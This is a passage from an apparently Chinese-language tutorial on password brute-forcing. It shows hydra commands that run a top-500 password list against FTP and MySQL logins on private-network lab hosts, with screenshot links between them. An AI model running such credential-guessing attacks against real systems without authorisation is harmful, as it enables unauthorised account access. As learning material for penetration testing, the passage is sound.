 ![image-20250317232800500](穷举/image-20250317232800500.png)

### 6.2 ftp

```bash
$ hydra -l c5moon -P ./top500.txt -e ns -vV 192.168.31.51 ftp
```

![image-20250317233427264](穷举/image-20250317233427264.png)

### 6.3 mysql

```bash
$ hydra -l root -P ./top500.txt -e ns -vV -f 192.168.31.57 mysql
```
